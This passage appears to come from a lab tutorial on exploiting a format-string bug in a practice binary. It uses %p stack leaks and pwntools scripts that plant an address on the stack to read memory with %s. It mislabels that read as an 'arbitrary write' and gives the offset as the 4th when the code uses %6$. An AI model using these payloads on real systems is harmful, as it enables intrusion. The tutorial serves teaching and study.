 You may notice that the last two values contain the hex values of `%x `. That's because we're reading the buffer. Here it's at the 4th offset - if we can write an address and then point `%s` at it, we can get an arbitrary write!

```bash
$ ./vuln 

ABCD|%6$p
ABCD|0x44434241
```

> `%p` is a pointer; generally, it returns the same as `%x` just precedes it with a `0x` which makes it stand out more

As we can see, we're reading the value we inputted. Let's write a quick pwntools script that writes the location of the ELF file and reads it with `%s` - if all goes well, it should read the first bytes of the file, which is always `\x7fELF`. Start with the basics:

```python
from pwn import *

p = process('./vuln')

payload = p32(0x41424344)
payload += b'|%6$p'

p.sendline(payload)
log.info(p.clean())
```

```bash
$ python3 exploit.py

[+] Starting local process './vuln': pid 3204
[*] b'DCBA|0x41424344'
```

Nice it works. The base address of the binary is `0x8048000`, so let's replace the `0x41424344` with that and read it with `%s`:

```python
from pwn import *

p = process('./vuln')

payload = p32(0x8048000)
payload += b'|%6$s'

p.sendline(payload)
log.info(p.clean())
```

It doesn't work.

The reason it doesn't work is that `printf` stops at null bytes, and the very first character is a null byte. We have to put the format specifier first.
